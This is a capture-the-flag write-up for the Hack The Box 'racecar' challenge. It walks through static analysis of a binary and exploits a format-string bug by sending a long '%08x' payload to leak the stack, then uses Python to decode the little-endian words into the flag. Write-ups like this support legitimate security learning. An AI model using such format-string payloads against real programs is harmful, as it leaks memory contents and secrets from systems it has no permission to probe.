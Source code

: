 > **Did you know that racecar spelled backwards is racecar?**
> **Well, now that you know everything about racing, win this race and get the flag!**

> Author: **[w3th4nds][author-profile]**

## Fast and failed

### The meta?

Nothing outstanding from `trid`, `binwalk`, `exiftool` and `objdump`.

There's an interesting string though: "flag.txt". The binary is most likely
accessing a local file, which would be our target.

### Playing racecar?

The previous hypothesis can be confirmed by running the binary: it crashes
when the file "flag.txt" is not present in its parent folder. Let's create
a bogus flag with "heyhey seth here" inside.

Now the binary prompts for name, nickname, car and circuit.
The combination "fast car + highway circuit" seems to win everytime.

There's a last prompt after the victory: the user input is simply echoed.

```
[!] Do you have anything to say to the press after your big victory?
> iii

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
iii
```

### Overflowing?

My first reaction, try and overflow, fails miserably.

## Static analysis

Looking for "flag.txt" in Ghidra leads to:

```c
__stream = fopen("flag.txt","r");
if (__stream == (FILE *)0x0) {
  printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                /* WARNING: Subroutine does not return */
  exit(0x69);
}
fgets(local_3c,0x2c,__stream);
read(0,__format,0x170);
puts(
    "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: \x1b[0m"
    );
printf(__format);
```

On the last line, we want to print the content of `local_3c` instead of the
input saved in `__format`.

## Reading the stack

The arguments accessed by printf are inferred from the format string. For example:

```c
"%08x %p"
```

Will print the first 8 nibbles on the stack and then interpret the next word as
a `void *` pointer.

With "%08x %08x %08x %08x", the binary will respond with the first 4 words on
the stack. Hence, we can read the stack frame: this is the "format string attack". 

The target is the content of the flag file: "heyhey seth here". The corresponding
bytes are:

```
0x68 Ox65 0x79 0x68 ...
```

With a large enough format string, we should see those bytes appear in the echo.

```
%08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x ... %08x
```

Returns:

```
0x5655a1c0 ... 0x68796568 0x73207965 ...
```

The finish line is in sight!

## Reordering

The description "racecar spelled backwards is racecar" actually refers to endianness.

Indeed there's a twist: `0x68796568` reads "hyeh". In other word, the order is inverted.

This can be easily reversed, word by word:

```python
def decode(word: str) -> str:
    # start at 2 to ignore the "0x"
    return "".join([chr(int(word[i:i+2], 16)) for i in range(2, 10, 2)][::-1])
```

And, iterating on the whole memory dump:

```python
"".join([decode(w) for w in BYTES.split(" ")])
```

> HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}

[author-profile]: https://app.hackthebox.eu/users/70668
